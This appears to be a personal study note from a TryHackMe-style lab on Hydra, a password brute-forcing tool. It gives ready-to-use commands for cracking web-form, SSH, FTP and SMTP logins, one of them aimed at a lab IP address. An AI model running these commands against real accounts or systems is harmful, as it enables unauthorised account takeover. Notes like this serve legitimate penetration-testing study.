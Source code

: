 ##  What is Hydra

Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful [Kali Linux machine](https://tryhackme.com/room/kali) and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

##  Common uses and commands
Hydra can be used for various purposes such as password brute-forcing, account takeover, and network authentication testing. Some of the common commands that can be used with Hydra include:

Website
```Terminal 
hydra -l USERNAME -P PASSWORD.txt IP http-POST|GET-form "/PATH-URL/something.php:username=^USER^&password=^PASS^:INVALID-STATEMENT-HTML" -VV -T X


hydra -l phillips -P /home/ubuntu/Downloads/list.txt 10.10.206.120 http-get-form "/login-get  
/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```

- http-post-form = Request                                                             --->  <font color="Red">CHANGE POST OR GET</font>
- PATH = URL Path (From Website or BurpSuite)
- ^USER^ = Keyword to define the FUZZ of username
- ^PASS^ = Keyword to define the FUZZ of password.txt
- -t = Speed
- -VV = Verbose Enable
- Login trigger
	- S=             ---> Element on the other page (After login)
	- HTML       ---> HTML login fail element
- Tips
	- If there is no ?something=  ---> Simply add : after the URL (/account-login.php:BURP-STUFF-HERE)  
- Example
	- ![[Pasted image 20221010211610.png]]
	- ![[Pasted image 20221010211700.png]]

SSH
```Terminal 
hydra -l USERNAME -P WORDLIST.txt MACHINE_IP -t X ssh
hydra -L USERNAME.txt -P PASSWORD MACHINE_IP -t X ssh
```
- ssh = Service

FTP
```Terminal 
hydra -l user -P passlist.txt ftp://MACHINE_IP
```
- ftp:// = FTP server

SMTP
```
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v
```

##  More Information
Hydra can be downloaded from its GitHub page at [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra). The tool is compatible with Windows, Linux, and macOS. Hydra has extensive documentation available on its GitHub page, including examples, tutorials, and user guides.

<iframe src="https://www.kali.org/tools/hydra/" width="100%" height="1300"></iframe>
